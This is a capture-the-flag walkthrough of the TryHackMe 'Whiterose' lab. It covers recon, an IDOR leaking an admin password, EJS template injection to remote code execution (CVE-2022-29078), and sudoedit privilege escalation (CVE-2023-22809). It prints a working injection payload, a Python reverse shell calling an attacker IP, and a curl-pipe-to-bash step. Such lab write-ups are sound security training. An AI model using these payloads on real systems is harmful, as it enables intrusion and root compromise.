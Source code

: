 ![alt text](image.png)
### Link: https://tryhackme.com/room/whiterose
--------------------------------------------------------------------
### Recon:
```bash
$nmap -sV -vv -A -T4 -p- <IP>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCddbej9ZSf75uuDvLDeym5AYM+loP/3W862HTWjmksh0UuiuIz8UNTrf3ZpgtBej4y3E3EKvOmYFvJHZpFRV/hQBq1oZB3+XXVzb5RovazcnMgvFxI4y5nCQM8qTW09YvBOpzTyYmsKjVRJOfLR+F87g90vNdZ/u8uVl7IH0B6NmhGlCjPMVLRmhz7PuZih38t0WRWPruEY5qGliW0M3ngZXL6MmL1Jo146HtM8GASdt6yV9U3GLa3/OMFVjYgysqUQPrMwvUrQ8tIDnRAH1rsKBxDFotvcfW6mJ1OvojQf8PEw7iI/PNJZWGzkg+bm4/k+6PRjO2v/0V98DlU+gnn
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNMBr/zXjVQItMqdVH12/sZ3rIt2XFsPWRCy4bXCE7InUVg8Q9SVFkOW2LAi1UStP4A4W8yA8hW+1wJaEFP9ffs=
|   256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIdJAkvDVqEAbac77yxYfkM0AU8puWxCyqCBJ9Pd9zCi
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
```

+ When access <IP> the first, we can't access the website so we need to add <IP> and domain `cyprusbank.thm` into `/etc/hosts`.
+ Now we can access domain `cyprusbank.thm` and go to enumerate directories but get nothing special.
+ So idea now is finding subdomain of `cyprusbank.thm`. We use tool `ffuf` to fuzz the subdomain:

![alt text](image-1.png)

--> We've found the subdomain `admin.cyprusbank.thm`.

***Note***: When find out the subdomain we need to add it into `/etc/hosts`.

+ Access subdomain `admin.cyprusbank.thm` and use the credential `Olivia Cortez:olivi8` to Login.
+ Login successfully we will review all features of website `Cyprus National Bank | Admin Panel`. 
+ In the feature `Messages`, we find the potential parameter `c`. We can change value of parameter to see the sensitive information:

![alt text](image-2.png)

--> We've found the vulnearbility IDOR.

+ Now we've had the credential which have privileged admin account `Gayle Bev:p~]P@5!6;rs558:q`.
+ Login again with new credential and we've found the Tyrell Wellick's phone number.
+ When we use account `Olivia Cortex` we can not access the feature `Settings` because just admin account can access. Now using account `Gayle Bev` with admin privileged
we can go `Settings`.
+ Using `Customer Settings`:

![alt text](image-3.png)

--> We've found something is weird that is the notification "Password updated to 'admin123'". New Password is reflected, we try some vulnearbility like XSS, SQLi but nothing's happened.

+ We add more parameter and use BurpSuite to fuzz the parameter. Seeing what happen next:

![alt text](image-4.png)

--> We've found some potential parameter `async`, `client`,`error`,`include`,`password` and `message`.

+ Checking `client` and `include` we get the error:

![alt text](image-5.png)

+ With `async`:

![alt text](image-6.png)


+ Research error and we get the discussion: 
```
The error you're encountering is a common issue with EJS (Embedded JavaScript) templates. The "include is not a function" error typically occurs when the EJS include syntax is not correctly implemented or when there's a version mismatch between EJS and Express.
```

+ We've known the page is using EJS templates and we continue researching the available vulnearbility which can occurs in EJS templates.
+ After researching, we've known EJS has SSTI (Server-Side Template Injection) vulnerability. You have fixed some server-side template injection vulnerabilities recently, such as CVE-2022-29078, CVE-2023-29827.
+ Searching CVE-2022-29078, we found the Poc to exploit SSTI to RCE [here](https://eslam.io/posts/ejs-server-side-template-injection-rce/).
+ In the Poc, we can confirm the EJS in the page by using parameter `delimiter`:

![alt text](image-7.png)

--> It will disclose the template with tags `<%- include("../components/head"); %>` and  `<%- include("../components/navbar", { logged: true, active: "settings" }); %>`
because the delimiter is not exists.

### The RCE exploit
+ We've had the payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('');s
```
+ We can't execute payload revershell directly in method `execSync()` so we need to create shell file in the machine and execute through `execSync()`.

```
$ cat shell.sh 
#!/bin/sh
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.17.1.235",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

+ Open the server Python in the machine and run the payload:

![alt text](image-8.png)

![alt text](image-9.png)

```
$ curl <IP> | bash
1.The curl <IP> part retrieves content from a web server at the specified IP address.
2.The pipe (|) takes the output from curl and passes it as input to bash.
3.Bash then executes whatever code was retrieved by curl.
```

### Privileged Escalation
+ Checking `sudo -l`:

```
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

--> We can run command `sudoedit` without password.

+ Checking version of `sudoedit`:

![alt text](image-10.png)

+ Research the Sudo version 1.9.12p1 and we've found the way to privileged escalation with CVE-2023-22809.
+ ### [CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)
+ Poc: 
```
web@cyprusbank:~$ EDITOR='vim -- /root/root.txt' sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

![alt text](image-11.png)

------------------------------------------------------------------